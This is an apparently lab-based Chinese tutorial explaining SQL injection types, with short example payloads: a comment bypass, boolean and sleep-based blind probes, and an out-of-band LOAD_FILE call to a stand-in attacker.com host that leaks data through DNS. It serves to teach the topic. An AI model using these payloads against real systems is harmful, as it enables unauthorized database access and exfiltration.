

# 什么是 SQL 注入？

当用户提供的数据包含在 SQL 查询中时，使用 SQL 的 Web 应用程序就会变成 SQL 注入。

假设一个在线博客，每篇博文都有一个唯一的 ID 号。每篇博文的URL 可能如下所示：

`https://website.thm/blog?id=1`

从上面的 URL 可以看出，所选的博客文章来自查询字符串中的 id 参数。Web 应用程序需要从数据库中检索文章，可以使用类似如下的 SQL 语句：

```sql
SELECT * from blog where id=1 and private=0 LIMIT 1;
```

上面的 SQL 语句是在博客表中查找 ID 号为 1 且私有列设置为 0 的文章，这意味着它可以被公众查看，并将结果限制为只有一个匹配项。

当用户输入被引入数据库查询时，就会引发 SQL 注入。在本例中，查询字符串中的 id 参数直接在 SQL 查询中使用。

假设文章 ID 2 仍然被锁定为私密，因此无法在网站上查看。现在我们可以改为调用 URL：

`https://website.thm/blog?id=2;--`

然后，它将生成 SQL 语句：

```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

URL 中的分号表示 SQL 语句的结束，两个破折号使之后的所有内容被视为注释 。这样一来，实际上你只是在运行查询：

```sql
SELECT * from blog where id=2;--
```

无论是否设置为公开，都会返回 ID 为 2 的文章。

# SQLI的分类



* ***In-Band SQLi (带内注入)***
  “带内”的意思是：攻击者使用同一个通信通道（通常就是当前的网页 HTTP 响应）来发送恶意 SQL 语句，并直接在该网页上获取结果。

  带内注入主要分为两种子类型：

  1. Union-Based SQLi (联合查询注入)
     原理：利用 UNION 运算符将恶意查询的结果附加到原始正常查询的结果集中。页面会将合并后的数据直接显示出来。
     利用条件：
     页面必须有回显位（查询的数据能直接显示在前端）。
     注入的查询必须与原始查询拥有相同数量的列。
     列的数据类型必须兼容（部分数据库要求严格，如 PostgreSQL）。
     实战特征：速度极快，是渗透测试中获取大量数据的首选方法。
  2. ***Error-Based SQLi (报错注入)***
     原理：故意构造包含语法错误或逻辑错误的 SQL 语句（如使用 updatexml、extractvalue、或 GROUP BY 主键冲突），迫使数据库抛出详细的错误信息，并将我们想要查询的敏感数据包含在这个错误信息中返回给前端。
     利用条件：Web 应用程序未关闭数据库的详细错误回显功能。
     实战特征：通常有长度限制（例如 MySQL 报错信息通常限制在 32 个字节内），需要配合 substr() 等函数分段截取数据。
* ***Blind SQLi (推断型注入 / 盲注)***
  当 Web 应用程序配置安全，不返回任何数据库错误信息，也不在页面上显示查询结果时，带内注入就会失效。此时必须使用盲注。攻击者无法直接“看到”数据，只能向数据库提出一系列“是非题（True/False）”，通过观察服务器的响应行为来逐个字符地推断数据。

  盲注分为两种子类型：

  1. ***Boolean-Based Blind (布尔盲注)***
     原理：向数据库发送包含布尔逻辑（如 AND 1=1 或 AND ascii(substr(database(),1,1))>100）的查询。
     利用条件：页面虽然没有数据回显和报错，但当 SQL 语句的条件为“真”和“假”时，页面的表现会有所不同（例如，条件为真时显示“文章存在”，条件为假时显示“文章不存在”或返回 404）。实战特征：需要发送大量请求，逐个字符猜解，效率较低，实战中通常依赖自动化脚本（如 Python 脚本或 SQLMap）。
  2. ***Time-Based Blind (时间盲注)***
     原理：页面无论条件真假，返回的内容完全一样（布尔盲注失效）。此时，利用数据库的延时函数（如 sleep() 或 WAITFOR DELAY）。如果条件为真，则让数据库沉睡指定的时间；如果为假，则立即返回。
     利用条件：攻击者能够感知 HTTP 响应时间的差异。
     实战特征：效率最低，且容易受到网络波动的干扰，通常是渗透测试中的最后手段。经典载荷形式为 IF(条件, sleep(5), 1)。
* ***Out-of-Band SQLi (OOB / 带外注入)***
  当攻击者既无法通过页面获取回显（带内失效），又因为网络延迟或防御机制无法使用盲注时，可以尝试带外注入。

  原理：利用数据库系统内置的、可以发起外部网络请求的功能（如 DNS 解析、HTTP 请求），将查询到的敏感数据作为域名的一部分或 URL 参数，发送到攻击者控制的外部服务器上。

  利用条件：

  数据库服务器必须允许出站网络连接（能访问互联网）。

  数据库具有特定的函数或扩展支持。例如：

  MySQL (Windows 环境): LOAD_FILE('\\\\attacker.com\\test') 引发 DNS 解析。

  Oracle: UTL_HTTP 或 UTL_INADDR 包。

  SQL Server: xp_cmdshell 或 master..xp_dirtree。

  实战特征：通常结合 DNSLog 平台（如 CEye）来接收脱取的数据。即使是完全无回显的系统，也能瞬间把数据“偷”出来。

# In-Band SQLi (带内注入)
